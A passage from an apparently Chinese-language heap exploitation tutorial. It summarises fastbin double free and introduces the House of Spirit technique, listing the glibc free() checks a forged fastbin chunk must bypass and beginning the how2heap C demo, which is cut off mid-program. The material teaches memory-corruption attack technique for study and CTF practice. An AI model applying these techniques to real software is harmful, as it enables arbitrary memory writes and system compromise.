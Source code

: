 ```
	  return NULL;
}
```

### 小總結
通過 fastbin double free 我們可以使用多個指針控制同一個堆塊，這可以用於篡改一些堆塊中的關鍵數據域或者是實現類似於類型混淆的效果。
如果更進一步修改 fd 指針，則能夠實現任意地址分配堆塊的效果( 首先要通過驗證 )，這就相當於任意地址寫任意值的效果。

## House Of Spirit

### 介紹

House of Spirit 是 `the Malloc Maleficarum` 中的一種技術。

該技術的核心在於在目標位置處僞造 fastbin chunk，並將其釋放，從而達到分配**指定地址**的 chunk 的目的。

要想構造 fastbin fake chunk，並且將其釋放時，可以將其放入到對應的 fastbin 鏈表中，需要繞過一些必要的檢測，即

- fake chunk 的 ISMMAP 位不能爲1，因爲 free 時，如果是 mmap 的 chunk，會單獨處理。
- fake chunk 地址需要對齊， MALLOC_ALIGN_MASK
- fake chunk 的 size 大小需要滿足對應的 fastbin 的需求，同時也得對齊。
- fake chunk 的 next chunk 的大小不能小於 `2 * SIZE_SZ`，同時也不能大於`av->system_mem` 。
- fake chunk 對應的 fastbin 鏈表頭部不能是該 fake chunk，即不能構成 double free 的情況。

至於爲什麼要繞過這些檢測，可以參考 free 部分的源碼。

### 演示

這裏就直接以 how2heap 上的例子進行說明，如下

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	fprintf(stderr, "This file demonstrates the house of spirit attack.\n");

	fprintf(stderr, "Calling malloc() once so that it sets up its memory.\n");
	malloc(1);

	fprintf(stderr, "We will now overwrite a pointer to point to a fake 'fastbin' region.\n");
	unsigned long long *a;
	// This has nothing to do with fastbinsY (do not be fooled by the 10) - fake_chunks is just a piece of memory to fulfil allocations (pointed to from fastbinsY)
	unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

	fprintf(stderr, "This region (memory of length: %lu) contains two chunks. The first starts at %p and the second at %p.\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[7]);

	fprintf(stderr, "This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
	fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
	fake_chunks[1] = 0x40; // this is the size

	fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.\n");
        // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
	fake_chunks[9] = 0x1234; // nextsize

```